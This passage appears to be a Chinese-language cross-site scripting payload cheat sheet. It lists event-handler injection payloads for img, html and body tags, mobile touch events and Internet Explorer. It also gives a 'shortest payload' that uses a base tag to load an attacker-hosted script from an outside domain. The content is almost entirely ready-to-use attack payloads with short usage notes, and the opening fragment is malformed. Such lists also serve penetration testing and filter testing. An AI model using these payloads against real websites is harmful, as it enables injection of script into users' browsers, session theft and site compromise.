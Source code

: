 ```javascript
<img
<image

src=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=
srcset=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=
onload=alert(1)>
onloadend=alert(1)>
onloadstart=alert(1)>
```



## 最短 XSS payload

**当注入空间有限时使用。要求源代码中已存在一个通过相对路径调用的原生脚本，且该脚本位于注入点之后。攻击者服务器必须对原生脚本的请求返回攻击脚本（路径相同），或者将其嵌入默认的 404 页面（更容易实现）。域名越短越好。**

```url
<base href=//knoxss.me>
```



## 移动端专用事件处理器

**用于针对移动应用程序时使用。**

```javascript
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<body onorientationchange=alert(1)>
```



## Body 标签

**针对 `<body>` 标签的注入payload。最后一个仅适用于 Internet Explorer。**

```javascript
<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
<body onhashchange=alert(1)><meta content=URL;%23 http-equiv=refresh>
<body onscroll=alert(1) style=overflow:auto;height:1000px id=x>#x
<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><x id=x>#x
<body onresize=alert(1)>press F12!

    
Internet Explorer
<body onhelp=alert(1)>press F1!
```



